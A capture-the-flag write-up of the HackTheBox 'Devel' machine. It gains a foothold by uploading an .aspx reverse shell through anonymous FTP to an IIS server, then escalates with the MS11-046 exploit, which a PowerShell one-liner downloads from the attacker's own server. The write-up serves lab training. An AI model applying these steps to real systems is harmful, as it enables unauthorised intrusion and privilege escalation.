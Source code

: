 # Devel

<p align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/2e0d379e-9fee-444d-bdfc-55da6a089247" />
</p>

Welcome back, here we have a very old HacktheBox easy machine, that for this reason is really simple, but let’s start as usual, by running `nmap`

```plaintext
┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Devel]
└─$ sudo nmap -sS -sC -sV --script=vuln -oN scans/nmap.txt 10.10.10.5
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 14:50 EDT
Nmap scan report for 10.10.10.5
Host is up (0.056s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| vulners: 
|   cpe:/a:microsoft:internet_information_services:7.5: 
|       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
|       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
|       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
|       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
|_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.22 seconds
```

As always we have a website that we can visit 

![Untitled](https://github.com/Wanasgheo/Writeups/assets/111740362/3d4b9792-8015-4ca5-9c13-6d2f344fbfb3)

This is the tipical page of Windows IIS, where we have nothing to do, but from nmap we can see that there is the ftp port, and maybe we can login via anonymous

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/b0f2e002-12d3-410b-9658-b1274483d886)

And we are in! By listing the files we can see that there are all the pages that are visitable from the site, like the `welcome.png` one.

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/78de96a2-01ef-4521-af83-ca2d1b8dcde2)

We can now try to upload custom files like a revshell in php or py.

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/53edac12-de11-4a8c-b3cd-ddee6c0d2605)

As you can see neither of them seems not to be readable from the website page, so we can think of an executable extension allowed, and because we are in an `aspnet_client`, maybe we can use the `.aspx` extension.

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/70801370-8c8c-4c11-acf3-639794f6960e)

It works so now we can upload an `.aspx` reverseshell found [online](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).
Now we just need to upload it and visit the page while listening at that port

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/6afc1ae2-b706-44ae-81ae-397738e04e64)

## Privilege Escalation

In this machine we won’t be able to read the user flag until we will get to admin, because we are not allowd to visit the user page, but by looking at the system informations we can get some interesting infos

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/b466cd52-7d35-4242-bbdf-0b08ec794eb8)

As you can see we have a pretty old windows version without any Hot-Fix, and by looking for it online we found an interesting page 

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/42ac3ed2-d3e5-43c5-a6f7-70a6f0153e8a)


We have even the `EDB-ID` that we can use to fetch the exploit from searchsploit

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/0c8e9333-9965-4c43-882a-0217713822c3)


Now we need to compile the code in the given way of the `CVE`

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/a743e510-f373-40aa-9bf3-0302fcf077ec)


So just compile and trasfer it via python server 

```c
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.204:8000/MS11-046.exe', 'C:\Windows\Temp\MS11-046.exe')"
```

And here is the exploit execution

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/a4eb57ba-388f-4303-a7af-a4f8238df9f6)


Now we are system and like this we can fetch all the flags

```plaintext
c:\>type \Users\babis\Desktop\user.txt
type \Users\babis\Desktop\user.txt
aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX6

c:\>type \Users\administrator\Desktop\root.txt
type \Users\administrator\Desktop\root.txt
6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
```

Just like this we solved the machine

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/9adc4f54-8bd3-41dd-bde1-311c173dde88)

